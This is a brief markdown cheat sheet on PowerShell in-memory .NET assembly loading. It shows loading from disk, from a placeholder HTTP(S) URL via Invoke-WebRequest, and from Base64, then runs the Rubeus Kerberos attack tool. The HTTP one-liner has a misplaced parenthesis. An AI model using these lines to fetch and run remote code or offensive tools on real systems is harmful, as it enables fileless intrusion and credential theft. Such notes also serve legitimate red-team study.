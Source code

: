 # *PowerShell* Assembly Loading

## Loading

### Disk
```powershell
[System.Reflection.Assembly]::LoadFrom('<path_to_file>')
```

### HTTP(S) URL
```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest '<http(s)>://<host>:<port>/<uri>')).Content
```

### Base64
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String('<base64_string>'))
```

***

## Execution
```powershell
# [<PublicNamespace>.<PublicClass>]::Function(<arguments>)
[Rubeus.Program]::Main("klist")
```